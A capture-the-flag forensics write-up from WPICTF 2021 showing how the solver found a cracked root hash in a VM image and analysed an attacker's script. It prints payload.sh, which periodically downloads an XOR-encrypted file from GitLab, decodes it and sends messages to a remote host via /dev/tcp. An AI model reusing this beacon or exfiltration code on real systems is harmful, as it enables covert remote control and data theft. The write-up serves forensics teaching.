 ```yaml
---
layout: load_md
title: The White Circle | Wpictf 2021 | DFIR Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Wpictf 2021
parent: wpictf_2021
category: forensics
challenge: DFIR
tags: "forensics, twh"
date: 2021-04-26T00:00:00+00:00
last_update: 2021-04-26T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Wpictf 2021</h1>

## DFIR

> Solved by : thewhiteh4t

* we get a `.ova` file for this one
* challenge states that activity was detected in / directory
* in / directory we can see a `.pot` file

![](https://i.imgur.com/HdIn51S.png)

* this file contains :

```
$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

* looks like shadow file format so i tried to login as `root` with `toor` as password and it works!
* in `/root` we can see some interesting dot files

![](https://i.imgur.com/wFSclR3.png)

* `payload.sh` pulls an encrypted csv file from gitlab and decrypts it

```
    #!/bin/bash
    W=$((15*60))
    K=120
    while true
    do
        echo "sleeping for $W seconds"
        sleep $W
        rm .encrypted_csv.data
        wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
        echo "downloaded file"
        F="./.encrypted_csv.data"
        hexdump -v -e '/1 "%u\n"' $F | while read B; do
            E=$((K^B))
            C=$(printf \\$(printf '%03o' $E))
            echo -n $C >> encrypted.csv
        done
        echo "decrypted newest command"
        S=$(cat encrypted.csv)
        rm encrypted.csv
        S="${S::-1}"
        D=,
        S=$S$D
        array=();
        while [[ $S ]]; do
            array+=( "${S%%"$D"*}" );
            S=${S#*"$D"};
        done;
        declare -a array
        M=${array[0]}
        I=${array[1]}
        P=${array[2]}
        M=${M##WPI}
        echo "routing message to $I:$P"
        echo "$M" > /dev/tcp/$I/$P
    done
```

* I modified the script to not remove the new file by commenting out line 19
* `encrypted.csv` holds our flag!

![](https://i.imgur.com/6KQGa3L.png)

